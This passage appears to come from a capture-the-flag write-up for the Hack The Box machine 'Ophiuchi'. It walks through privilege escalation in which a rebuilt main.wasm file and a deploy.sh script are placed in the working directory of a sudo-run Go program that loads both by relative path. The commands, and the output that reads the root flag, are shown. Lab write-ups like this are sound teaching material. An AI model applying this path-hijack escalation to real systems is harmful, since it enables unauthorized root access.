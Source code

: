     import (
            "fmt"
            wasm "github.com/wasmerio/wasmer-go/wasmer"
            "os/exec"
            "log"
    )


    func main() {
            bytes, _ := wasm.ReadBytes("main.wasm")

            instance, _ := wasm.NewInstance(bytes)
            defer instance.Close()
            init := instance.Exports["info"]
            result,_ := init()
            f := result.String()
            if (f != "1") {
                    fmt.Println("Not ready to deploy")
            } else {
                    fmt.Println("Ready to deploy")
                    out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                    if err != nil {
                            log.Fatal(err)
                    }
                    fmt.Println(string(out))
            }
    }

Basically the program read a webassemply file `main.wasm` using a relative path
and if the file map "info" return `1` it run a bash script `deploy.sh` also
using a relative path. We "just" need to create a new `main.wasm` that return
`1` and a bash script that give us the root flag.

We download main.wasm and "decompile" it using [wabt](https://github.com/WebAssembly/wabt) and its online [wasm2wat "decompiler"](https://webassembly.github.io/wabt/demo/wasm2wat/)

Using [wat2wasm](https://webassembly.github.io/wabt/demo/wat2wasm/) We just change the fourth line `(i32.const 0))` to `(i32.const 1))` and download the resulting wasm file.
We upload it on the box in our home folder and create a deploy.sh bash file to display the root flag:

    :::text
    kali@kali:~/pown/htb_Ophiuchi$ scp  test.wasm  admin@10.129.98.255:main.wasm
    admin@10.129.98.255's password:
    test.wasm

    admin@ophiuchi:~$ echo 'cat /root/root.txt' > deploy.sh
    admin@ophiuchi:~$ chmod +x deploy.sh
    admin@ophiuchi:~$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Ready to deploy
    d153e100b32fe456e149a86ef6468ac6

# Wrapping up

A very interesting box that I would recommend to beginners as it is mostly
straightforward with no rabbit hole.

